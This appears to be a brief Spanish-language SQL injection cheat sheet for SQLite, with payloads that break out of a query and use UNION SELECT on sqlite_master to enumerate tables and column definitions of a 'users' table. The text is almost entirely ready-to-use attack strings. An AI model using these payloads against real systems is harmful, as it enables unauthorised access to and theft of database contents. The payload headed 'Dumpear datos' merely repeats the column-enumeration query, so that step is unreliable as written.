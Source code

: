 # Conditional Based

## SQLite

### Enumerar tablas
```null
admin")) union select 1,group_concat(tbl_name),3,4 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -
```

### Enumerar columnas
```null
admin")) union select 1,group_concat(sql),3,4 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'-- -
```

### Dumpear datos
```null
admin")) union select 1,group_concat(sql),3,4 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'-- -
```

